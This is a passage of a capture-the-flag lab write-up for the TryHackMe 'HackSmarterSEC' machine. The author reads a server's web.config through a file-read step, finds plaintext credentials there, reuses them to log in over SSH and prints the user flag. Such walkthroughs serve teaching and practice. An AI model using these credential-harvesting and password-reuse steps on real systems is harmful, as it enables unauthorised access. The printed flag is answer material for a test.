 ```bash
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
```

Works, now let's try to read the `web.config` files in their standard directory :

```bash
file > \inetpub\wwwroot\hacksmartersec\web.config
Reading contents of \inetpub\wwwroot\hacksmartersec\web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>
```

There we go, we have username and a password.
## First Access SSH (22)

We can try password reuse on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ ssh tyler@hss.thm           
The authenticity of host 'hss.thm (10.10.142.189)' can't be established.
ED25519 key fingerprint is SHA256:MvevGrInODrfb/nv+rYdT743Q0BOkhOmNo5qlrhXCUg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'hss.thm' (ED25519) to the list of known hosts.
tyler@hss.thm's password: 
Microsoft Windows [Version 10.0.17763.1821] 
(c) 2018 Microsoft Corporation. All rights reserved.

Directory of C:\Users\tyler\Desktop

06/30/2023  07:12 PM    <DIR>          .
06/30/2023  07:12 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/27/2023  09:42 AM                25 user.txt
               3 File(s)          1,106 bytes
               2 Dir(s)  14,109,655,040 bytes free

tyler@HACKSMARTERSEC C:\Users\tyler\Desktop>type user.txt 
THM{4ll15n0tw3llw1thd3ll} 
```
